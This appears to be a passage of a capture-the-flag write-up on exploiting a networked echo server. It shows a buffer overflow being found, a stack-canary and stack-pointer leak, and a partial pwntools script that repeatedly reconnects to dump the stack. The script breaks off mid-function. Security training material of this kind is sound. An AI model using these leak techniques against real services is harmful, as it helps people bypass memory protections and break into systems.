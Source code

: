 I tried looking for printf vuln.

```
[*] echo socket server v0.2 beta GOLD ready.
> $ %p.%p.%p.%p.%p.%p.%p
%p.%p.%p.%p.%p.%p.%p
``` 

Nope, that's not it. How about buffer overflow?
I send b'A'*256

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
```

It complains about smashing the stack.. meaning that we have a buffer overflow situation, and have overwritten the stack canary.
By slightly reducing the number of AAAs, I deduce that I can write 0x48 bytes before overwriting the canary. Also the first (lsb) byte of the canary is always a null byte which terminates our echo output. Luckily by overwriting the null byte the rest of the canary is leaked.

```python
io.sendafter(b'> ', b'A'*0x49)
```
```
[DEBUG] Received 0x82 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 0a 59 15  bd a0 39 f6  │AAAA│AAAA│A·Y·│··9·│
                                           ^^^^^^^^^^^^^^^^^^^^^
    00000050  d0 aa 8b 9b  fd 7f 2a 2a  2a 20 73 74  61 63 6b 20  │····│··**│* st│ack │
              ^^^^^^^^^^^^^^^^^^
    00000060  73 6d 61 73  68 69 6e 67  20 64 65 74  65 63 74 65  │smas│hing│ det│ecte│
    00000070  64 20 2a 2a  2a 3a 20 74  65 72 6d 69  6e 61 74 65  │d **│*: t│ermi│nate│
    00000080  64 0a                                               │d·│
``` 

The last 7 bytes of the canary is found @ 0x49 and we also have a stack base pointer leak @ 0x50.
SWEET!

Running the script a second time shows that the canary and stack addresses stay the same. This leads me to believe that we have a service that is running in the background and spawning new processes to handle network connections. In any case this means that we can leak more of the stack by repeatedly connecting and sending a gradually increasing overflow. So I wrote a script to do just that, and to parse the results into usable addresses.

After some trial and error I found a suitable location to stop hammering the service for more stack.
I'll also cache the results so I don't have to do this every time.

```python
def dumpstack(Start, Iterations):
    idx = 0x49 + Start
    data = b'\0'
    for _ in range(Iterations):
        if len(data) >= 27*8:   # added after trial and error
            break
        try:
            sleep(0.5)
            io = start()
            io.sendafter(b'> ', b'A'*idx)
            io.recv(idx)
            leak = io.recvuntil(b'*** stack', drop=True)
            if len(leak) == 0:
                idx += 1
                data += b'\0'
```